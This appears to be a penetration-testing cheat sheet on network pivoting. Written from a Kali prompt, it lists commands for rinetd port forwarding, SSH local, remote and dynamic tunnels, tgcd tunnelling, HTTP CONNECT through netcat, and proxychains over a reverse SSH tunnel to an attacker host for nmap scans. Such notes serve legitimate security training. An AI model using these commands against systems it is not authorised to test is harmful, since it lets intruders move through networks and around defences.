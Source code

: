 > ###### rinetd

```
rinetd

vi /etc/rinetd.conf
# bind        # port        # connect        # port
a.b.c.d     53             e.f.g.h         80
```

##### SSH

> ###### Generate key

```
Kali> ssh-keygen -t rsa
```

> ###### SSH with Key

```
Kali> ssh -i key_file user@host
```

> ###### SSH Tunneling

```
# Local Tunnel
Kali> ssh $ATTACKER -L 3000:$TARGET:2222

# Remote Tunnel
Kali> ssh $TARGET -R 2222:localhost:3000

# Dynamic Tunnel to $TARGET
Kali> ssh -D 127.0.0.1:3000 -N username@$TARGET
```

> ###### tgcd tunneling

```
Kali> tgcd -L -p 9999 -q 40000
Kali> tgcd -C -s IP:9999 -c ATTACKER:40000
Kali> iptables -t nat -A OUTPUT -d IP -j DNAT --to-destination 127.0.0.1
```

##### HTTP Tunneling

```
Kali> nc -vvn $TARGET 8888
CONNECT $TARGET2:80 HTTP/1.0
```

##### Proxychains

```
# create reverse ssh tunnel on our target
Kali> ssh -f -N -R 2222:127.0.0.1:22 root@$ATTACKER

# create on our attacking machine
Kali> ssh -f -N -D 127.0.0.1:8080 -p 2222

# Good to go
Kali> proxychains nmap -sV $TARGET
```
